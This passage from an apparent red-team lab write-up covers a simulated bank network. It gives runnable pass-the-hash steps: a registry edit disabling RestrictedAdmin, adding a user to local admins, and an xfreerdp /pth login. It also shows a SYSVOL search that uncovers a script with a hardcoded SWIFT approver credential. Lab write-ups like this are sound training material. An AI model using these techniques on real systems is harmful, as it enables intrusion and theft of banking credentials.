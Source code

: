 	Credentials:
	  Hash NTLM: zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzz

At this point I though to use xfreerd, since support PTH, to access the JMP host. Before to proceed we need to set the following steps on the JMP host (perform the commands as administrator):

	reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
	The operation completed successfully.

The user must be member of the local admin group (otherwise you won't be able to connect to the JMP using PTH)
	
 	net localgroup administrators "bank.thereserve.loc\a.holt" /add

More information can be found [here](https://medium.com/@jakemcgreevy/pass-the-hash-pth-with-rdp-80595fb38bef)

From the attacker machine I connected using xfreerdp:

	xfreerdp /u:"bank.thereserve.loc\a.holt" /pth:zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzz /v:10.200.89.61

### Compromise swift application
Once logged in as <b>a.holt user</b> I thought that I could find the credentials to access the swift application saved in Chrome, but opening the passwords tab on the browser settings I found nothing. Probably something was messed up with DPAPI master key that prevent me to see saved password, maybe login using PTH involves some issue, actually I need to investigate the problem further. At the moment I decided to give up this way and I started again to perform information gathering on bank subdomain controller (bankdc). I logged in using the administrator accout <b>it.support_bank</b>; again I started to search for juicy files containing the word 'password' in it.
I started from C:\users folder, but I found nothing, then proceeding to search in other folders, finally I found the following:

	PS C:\Windows\SYSVOL> Get-ChildItem -Recurse  | Select-String "password" -List | Select -ExpandProperty Path
		C:\Windows\SYSVOL\domain\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf
		C:\Windows\SYSVOL\domain\scripts\approver_api_script.py
		C:\Windows\SYSVOL\sysvol\bank.thereserve.loc\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf
		C:\Windows\SYSVOL\sysvol\bank.thereserve.loc\scripts\approver_api_script.py
		
The approver_api_script sounds really promising:
		
	cat C:\Windows\SYSVOL\domain\scripts\approver_api_script.py 
		#This script can be used by approvers to directly interface with the API of the SWIFT backend to approve payments.
		#The script first generates a JWT for the user and then makes the approval request
		
		username = "r.davies" #Change this to your approver username
		password = "zzzzzzzzzzzzzzzzzzzzz" #Change this to your approver password
		
		import requests
		session = requests.session()
		data = session.get("http://swift.bank.thereserve.loc/)
		token = session.post("http://swift.bank.thereserve.loc/login", {username: username, password: password})
		#TBC rest of script should be added
